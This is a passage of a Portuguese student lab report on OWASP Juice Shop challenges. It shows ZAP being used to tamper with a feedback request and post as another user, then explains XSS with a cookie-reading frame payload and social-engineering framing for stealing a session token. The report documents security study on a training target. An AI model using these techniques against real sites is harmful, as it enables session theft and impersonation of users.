

Figura 30 - Pedido de feedback na ferramenta ZAP

 



Figura 31 - Resposta de captcha errado na ferramenta ZAP

 

Através do "Manual Request Editor" alterou-se o campo do email para "anotheruser @juice.sh.op", alterou-se o UserId e corrigiu-se o valor do captcha para o valor correto "1" (Figura 32).  



Figura 32 - Alteração do pedido de feedback

 

A resposta que previamente apresentava um valor de captcha errado, agora demonstra que o pedido foi aceite e processado (Figura 33). Na Figura 34 é comprovado que o feedback foi postado com o utilizador com o email "anotheruser@juice-sh.op", concluindo o desafio.



Figura 33 - Resposta à alteração do pedido de feedback

 



Figura 34 - Feedback postado

 

### Ponto 14

Um ataque Cross-site scripting (XSS) é um ataque ao utilizador e não ao website em si. Pelo que se pode utilizar a engenharia social para o executar.

Para realizar o ataque XSS corretamente é necessário que seja executado um script quando a página é carregada. Quando isto acontece, uma caixa de diálogo é aberta e contém um cookie do documento que parece relativamente inofensivo aos olhos do utilizador desinformado, mas que pode conter qualquer informação que o atacante escolher. 

Para visualizar todas os cookies presentes no browser para esta aplicação, é inserido o código abaixo na barra de pesquisa que resulta numa caixa de diálogo.

    " <frame src=”javacript:alert(document.cookie)"> "

Num ataque social o atacante pode ganhar a confiança do utilizador e dizer que o site utilizado é um site seguro, facilitando o ataque e a execução de comandos que permitem a obtenção destas cookies.

Para obter a cookie com o nome de “token” que está armazenado no browser da vítima recorre-se a um ataque cross-site scripting que permite visualizar as cookies armazenadas na pagina web em questão. Através do código document.cookie é retornado uma string do tipo “cookie=1value; cookie=1value; …” .

